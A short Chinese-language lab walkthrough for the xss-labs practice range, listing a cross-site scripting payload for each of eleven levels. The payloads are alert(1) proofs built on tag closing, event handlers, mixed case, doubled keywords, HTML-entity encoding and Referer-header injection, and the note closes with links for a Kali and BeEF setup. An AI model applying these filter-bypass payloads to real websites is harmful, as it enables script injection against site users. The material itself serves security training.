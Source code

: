 # XSS 代码过滤

### xss-labs 靶场

[GitHub - do0dl3/xss-labs: xss 跨站漏洞平台](https://github.com/do0dl3/xss-labs)

phpstudy 默认配置即可

level 1:
<script>alert(1)</script>

level 2:

```
"><script>alert(1)</script>
```

闭合标签

level 3:

```
‘ onclick='alert(1)'
```

html 实体；利用 html 标签属性

level 4:

```
" onclick='alert(1)'
```

level 5:

```
"> <a href=javascript:alert('xss') > xss</a>
```

level 6:

```
"> <a HrEf=javascript:alert('xss') > xss</a>
```

大小写混写

level 7:

```
" oonnclick='alert(1)'
```

双写关键字

level 8:

javascript:alert(1)

&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;

```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;
```

level 9:

```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;//http://
```

level 10:

&t_sort=" type="text" onclick="alert(1)"

level 11:

```
Referer: " type="text" onclick="alert(1)"
```

burpsuite

---

kali 换源

https://zhuanlan.zhihu.com/p/141053178

### kali beef 安装

https://www.cnblogs.com/jinxi7021/p/15089237.html
